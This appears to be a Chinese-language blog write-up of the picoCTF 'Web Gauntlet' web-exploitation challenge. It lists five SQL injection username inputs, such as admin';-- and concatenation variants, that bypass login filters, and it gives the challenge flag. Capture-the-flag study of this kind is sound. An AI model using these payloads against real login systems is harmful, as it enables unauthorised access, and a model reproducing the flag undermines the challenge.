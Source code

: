 ```yaml
---
layout: post
title:  "picoCTF - Web Gauntlet"
description: 
date:   2023-12-29 10:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF-Web Exploitation]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


# Question

[https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

# Solution


題目就是在考SQL Injection而已，filter.php那個連結會提示他過濾了那些字。但我很多題都送一樣的sql進去，反正能過關就好，也是因為我會的指令也不多就是了...

以下附上我每題的input，通通都是加在username那一欄，password隨便打：

````markdown
1. admin';--
2. admin';0x2d2d
3. admin';0x2d2d
4. ad'||'min';0x2d2d
5. ad'||'min';0x2d2d
````

# Flag

picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}